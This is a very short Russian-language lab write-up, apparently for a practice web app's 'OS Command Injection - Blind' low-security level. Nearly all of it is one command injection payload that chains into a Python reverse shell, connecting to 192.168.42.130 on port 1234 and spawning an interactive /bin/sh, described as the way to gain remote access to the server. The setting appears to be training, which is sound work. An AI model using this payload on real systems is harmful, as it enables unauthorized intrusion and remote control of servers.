

# OS Command Injection - Blind

**(low)**


Используем команду
```bash
192.168.42.132 | python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("192.168.42.130",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Для получения удаленного доступа к серверу

